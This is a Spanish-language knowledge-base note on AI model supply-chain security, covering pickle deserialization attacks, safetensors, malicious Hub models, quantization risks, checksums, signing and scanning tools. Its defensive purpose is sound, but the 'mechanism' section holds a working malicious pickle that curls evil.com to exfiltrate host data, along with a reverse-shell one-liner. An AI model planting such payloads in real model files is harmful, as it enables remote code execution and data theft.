



# Seguridad de la Cadena de Suministro de Modelos de IA

> [!abstract] Resumen
> La cadena de suministro de modelos de IA presenta riesgos únicos: ==vulnerabilidades de deserialización pickle en HuggingFace Hub, modelos maliciosos subidos a repositorios públicos, cuantización como vector de ataque, y falta de verificación de integridad==. El formato *safetensors* mitiga el riesgo de ejecución de código arbitrario. Este documento cubre cada riesgo, mecanismos de ataque, defensas (verificación de checksums, firma de modelos, fuentes confiables) y su conexión con el tracking de procedencia de [[licit-overview|licit]].
> ^resumen

---

## El ecosistema de distribución de modelos

### Plataformas principales

| Plataforma | Tipo | Modelos disponibles | Verificación | Riesgo |
|-----------|------|--------------------|--------------|---------|
| ==HuggingFace Hub== | Open marketplace | ==500,000+== | Parcial (malware scan) | ==Medio-Alto== |
| PyTorch Hub | Curado | ~100 | Alta | Bajo |
| TensorFlow Hub | Curado | ~1,000 | Alta | Bajo |
| NVIDIA NGC | Enterprise | ~500 | Alta | ==Bajo== |
| Ollama Library | Curado | ~200 | Media | Bajo |
| CivitAI | Comunitario | 100,000+ | ==Baja== | Alto |



---

## Vulnerabilidad pickle: ejecución de código arbitrario

### El problema fundamental

Python *pickle* es el formato más usado para serializar modelos PyTorch. El problema es que ==la deserialización de pickle puede ejecutar código Python arbitrario==. Esto convierte cada modelo pickle en un potencial vector de ataque.

> [!danger] Pickle es código ejecutable
> Un archivo pickle no es solo datos: puede contener instrucciones Python que se ejecutan al cargarlo. Esto es ==equivalente a ejecutar código no confiable==.



### Mecanismo del ataque

> [!example]- Modelo pickle malicioso
> ```python
> import pickle
> import os
>
> class MaliciousModel:
>     """Modelo que ejecuta código al ser deserializado."""
>
>     def __reduce__(self):
>         """__reduce__ define cómo se deserializa el objeto.
>         Retorna una tupla (callable, args) que se ejecutará
>         cuando pickle.load() reconstruya el objeto."""
>         cmd = "curl https://evil.com/exfil?data=$(whoami):$(hostname)"
>         return (os.system, (cmd,))
>
> # Crear modelo malicioso
> with open("model.pt", "wb") as f:
>     pickle.dump(MaliciousModel(), f)
>
> # Cuando alguien hace:
> # model = torch.load("model.pt")
> # Se ejecuta os.system("curl https://evil.com/...")
> ```

> [!warning] Variantes del ataque
> - **Reverse shell**: `bash -i >& /dev/tcp/evil.com/4444 0>&1`
> - **Cryptominer**: descarga e instala miner de criptomonedas
> - **Data exfiltration**: envía `~/.ssh/id_rsa`, `.env`, tokens
> - **Backdoor persistente**: instala servicio systemd malicioso
> - **Ransomware**: cifra archivos del workspace

---

## Safetensors: la solución

### Definición

*Safetensors* es un formato desarrollado por HuggingFace que ==almacena tensores sin capacidad de ejecutar código==. Es un formato puramente de datos.

> [!success] Safetensors vs Pickle
>
> | Propiedad | Pickle (.pt, .bin) | ==Safetensors (.safetensors)== |
> |-----------|-------------------|-------------------------------|
> | Ejecución de código | ==SÍ (peligro)== | ==NO (seguro)== |
> | Velocidad de carga | Lenta | ==2-5x más rápida== |
> | Memory mapping | No | ==Sí== |
> | Verificación de integridad | No nativa | ==Hash SHA-256 integrado== |
> | Tamaño | Baseline | ==Similar o menor== |
> | Compatibilidad | Universal | Creciente (HuggingFace, Ollama) |

> [!tip] Migración a safetensors
> ```python
> from safetensors.torch import save_file, load_file
>
> # Guardar modelo en safetensors (seguro)
> state_dict = model.state_dict()
> save_file(state_dict, "model.safetensors")
>
> # Cargar modelo desde safetensors (seguro)
> state_dict = load_file("model.safetensors")
> model.load_state_dict(state_dict)
>
> # NUNCA hacer esto con modelos no confiables:
> # model = torch.load("model.pt")  # ❌ PELIGROSO
> ```

---

## Modelos maliciosos en HuggingFace Hub

### Incidentes documentados

> [!failure] Modelos maliciosos detectados
> - **2023**: JFrog detectó ==~100 modelos maliciosos== en HuggingFace Hub con payloads pickle[^1]
> - **2023**: Modelos que exfiltraban tokens de HuggingFace del sistema
> - **2024**: Modelo que instalaba backdoor SSH al ser cargado
> - **2024**: Modelos con nombres similares a modelos populares (typosquatting de modelos)

### Técnicas de distribución maliciosa

| Técnica | Descripción | Ejemplo |
|---------|-------------|---------|
| ==Typosquatting== | Nombre similar a modelo popular | `meta-llama/Llama-2-7b` vs `meta_llama/Llama-2-7b` |
| ==Star-jacking== | Apuntar a repo popular para heredar estrellas | Repo apunta a meta-llama/llama |
| Backdoor oculto | Modelo funcional con trigger oculto | Funciona normal excepto con trigger |
| Modelo troyanizado | Fine-tune de modelo popular con backdoor | Fine-tune de LLaMA con payload |
| Versión falsa | Publicar "v2" de modelo popular | `GPT-4-turbo-free` |

---

## Cuantización como vector de ataque

### Riesgo

La *cuantización* es el proceso de reducir la precisión numérica de los pesos del modelo para reducir tamaño y mejorar velocidad. Sin embargo, ==el proceso de cuantización puede introducir modificaciones maliciosas==.

> [!warning] Riesgos de cuantización de terceros
> - Modelos "cuantizados" pueden ser versiones trojanizadas
> - El proceso de cuantización permite modificar pesos selectivamente
> - Los formatos de cuantización (GGUF, GPTQ, AWQ) pueden tener vulnerabilidades
> - No hay verificación estándar de que la cuantización fue fiel al original

### Mitigación

> [!tip] Cuantización segura
> 1. Cuantizar localmente a partir de pesos oficiales verificados
> 2. Verificar hash del modelo base antes de cuantizar
> 3. Comparar métricas de benchmark pre y post cuantización
> 4. Usar fuentes de cuantización confiables (TheBloke en HuggingFace era confiable pero verificar siempre)

---

## Verificación de integridad

### Checksums y hashes

> [!success] Proceso de verificación
> ```bash
> # Verificar hash SHA-256 de modelo descargado
> sha256sum model.safetensors
> # Comparar con hash publicado en la página del modelo
>
> # Verificación automatizada con huggingface_hub
> from huggingface_hub import hf_hub_download
> model_path = hf_hub_download(
>     repo_id="meta-llama/Llama-2-7b-hf",
>     filename="model.safetensors",
>     revision="main",  # Pinear a commit específico es más seguro
> )
> ```

### Firma de modelos

> [!info] Model signing
> La firma criptográfica de modelos permite ==verificar la autenticidad e integridad del modelo==:
>
> ```python
> # Conceptual - firma de modelos con licit
> from licit import ModelSigner
>
> signer = ModelSigner(private_key="signing_key.pem")
>
> # Firmar modelo
> signature = signer.sign_model(
>     model_path="model.safetensors",
>     metadata={
>         "author": "org-name",
>         "version": "1.0.0",
>         "base_model": "meta-llama/Llama-2-7b-hf",
>         "training_date": "2025-06-01",
>         "hash_algorithm": "sha256",
>     }
> )
>
> # Verificar modelo
> is_valid = signer.verify_model(
>     model_path="model.safetensors",
>     signature=signature,
>     public_key="signing_key.pub"
> )
> ```

---

## Framework de evaluación de riesgo



> [!question] ¿Cómo evaluar un modelo antes de cargarlo?
> 1. Verificar identidad del autor en la plataforma
> 2. Verificar formato (preferir safetensors)
> 3. Verificar hash/checksum contra fuente oficial
> 4. Escanear con herramientas de seguridad (picklescan)
> 5. Cargar en entorno aislado ([[sandboxing-agentes|sandbox]]) primero
> 6. Evaluar métricas de benchmark para detectar anomalías

---

## Herramientas de seguridad para modelos

| Herramienta | Función | Gratuita |
|-------------|---------|----------|
| ==picklescan== | Detecta código malicioso en pickles | Sí |
| ==safetensors== | Formato seguro de serialización | Sí |
| HuggingFace malware scan | Escaneo automático en Hub | Sí |
| ModelScan | Escaneo de seguridad de modelos | Sí |
| ClamAV | Antivirus general | Sí |

> [!tip] Usar picklescan antes de cargar modelos pickle
> ```bash
> pip install picklescan
> picklescan --scan model.pt
> # Reporta si el pickle contiene imports peligrosos
> # como os.system, subprocess, eval, exec
> ```

---

## Relación con el ecosistema

- **[[intake-overview]]**: intake puede incluir en las especificaciones de proyecto los modelos aprobados y sus hashes esperados, asegurando que los agentes solo utilicen modelos verificados y registrados en el inventario.
- **[[architect-overview]]**: architect puede bloquear la descarga de modelos de fuentes no aprobadas mediante su command blocklist y path restrictions, limitando `wget`, `curl` y `huggingface-cli` a dominios autorizados.
- **[[vigil-overview]]**: vigil detecta patrones de carga insegura de modelos en código generado (como `torch.load()` sin `weights_only=True`), alertando sobre uso de deserialización pickle no segura en código nuevo.
- **[[licit-overview]]**: licit implementa provenance tracking para modelos, registrando origen, versión, hash, firma criptográfica y cadena de custodia de cada modelo utilizado en el sistema, fundamental para auditoría y cumplimiento del EU AI Act.

---

## Enlaces y referencias

> [!quote]- Bibliografía
> - [^1]: JFrog. (2023). "Malicious ML Models Found on Hugging Face Hub." JFrog Blog.
> - HuggingFace. (2024). "Safetensors: A Simple, Safe and Fast Way to Store and Distribute Neural Nets Weights." https://huggingface.co/docs/safetensors
> - Trail of Bits. (2024). "Fickling: A Python Pickle Decompiler and Static Analyzer."
> - Kumar, R. (2023). "ModelScan: Protection Against ML Model Serialization Attacks." Protect AI.
> - NVIDIA. (2024). "Securing the AI Model Supply Chain." NGC Blog.

[^1]: JFrog descubrió aproximadamente 100 modelos maliciosos en HuggingFace Hub en 2023, todos explotando la deserialización pickle.
